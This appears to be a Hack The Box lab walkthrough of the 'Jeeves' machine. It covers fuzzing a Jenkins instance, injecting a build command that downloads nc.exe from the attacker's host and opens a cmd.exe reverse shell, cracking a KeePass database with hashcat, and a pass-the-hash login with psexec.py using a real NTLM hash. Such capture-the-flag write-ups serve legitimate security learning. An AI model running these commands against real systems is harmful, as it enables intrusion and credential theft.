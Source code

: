 ```yaml
---
title: "Jeeves Walkthrough(Hack The Box)"
date: 2025-04-07
draft: true
description: "a description"
tags: ["Medium", "Linux", "Hack The Box", "Hacking", "Web", "Walkthrough"]
---
```

## Reconnaissance #Windows 
- We got port 135, 80, 445 open as in initial scan.
- ![[Pasted image 20241215194409.png]]
- We got a web application page running with a search option for articles , and others too
- Its running on windows 10 and the search option leads to a error page surprisingly. Also it's a SQL error.
- ![[Pasted image 20241215145119.png]]
- We got server info from the error
- ![[Pasted image 20241215145414.png]]
- I have tried all the things to directory to host enumeration it all failed . The reason is I overlooked a port which is 50000. This port is also had a web page on it.
## Enumeration
- On doing directory enumeration I can a directory in the output
```
 ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://jeeves.htb:50000/FUZZ -t 60
```
- ![[Pasted image 20241215194726.png]]
- After accessing the directory I was so happy to see jenkins. Then I got access easily by injecting this command to download nc from my my machine on the project build.
## Exploitation
- `powershell -c "Invoke-WebRequest -Uri 'http://10.10.14.4:8000/nc.exe' -OutFile 'C:\Windows\Temp\good.exe'"`
- Executed it using next build command `C:\\Windows\Temp\good.exe <ip> <port> -e cmd.exe`
- Soon after getting user flag I tried this `whoami /priv` and saw seimpersonate token set enabled and tried some of the attacks from metasploit but failed.
- Initially to transfer this shell to meterpreter I used `exploit/multi/script/web_discovery` for the payload `windows/meterpreter/reverse_tcp` cause x64 was not working.
- This above module helped me to create a meterpreter shell by giving me a command to paste in the shell session I had.
- Soon after executing the command and got meterpreter access.
- As I didn't had any luck with potato attacks. I decided to check other directories and found a file in the Documents folder for our user. Which was CEH.kdbd.
- which is keepass db file so it required master key to unlock it.
- I used  john to generate hash and then hashcat to crack it.
```
keepass2john CEH.kdbd >> kdbd.hash
```
- Then..
```
hashcat kdbd.hash  /usr/share/wordlists/rockyou.txt --user -m 13400
```
- I used `--user` flag as hash started with name CEH.
- we got the password which is `<Redacted>`
- ![[Pasted image 20241215201728.png]]
- I opened the db using `kpcli --kdb CEH.kdbx` and provided master password when prompted
- Only a password hash sounded interesting to me
- ![[Pasted image 20241215201952.png]]
## Privilege Escalation
- I checked the hash sanity as Administrator to machine's share using crackmapexec and got a hit
```
crackmapexec smb 10.10.10.63 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```
- ![[Pasted image 20241215202113.png]]
- Now using psexec.py I initiated pass the hash attack and to prompt shell
- `psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 administrator@10.10.10.63 cmd.exe`
- ![[Pasted image 20241215202422.png]]
- Administrator's Desktop folder had this hm.txt which said to look elsewhere for root flag but by issuing `dir /R` we got to see the alternate data streams for the files.
- ![[Pasted image 20241215202656.png]]
- To read the contents of the root flag I typed `more < hm.txt:root.txt`
- ![[Pasted image 20241215202910.png]]
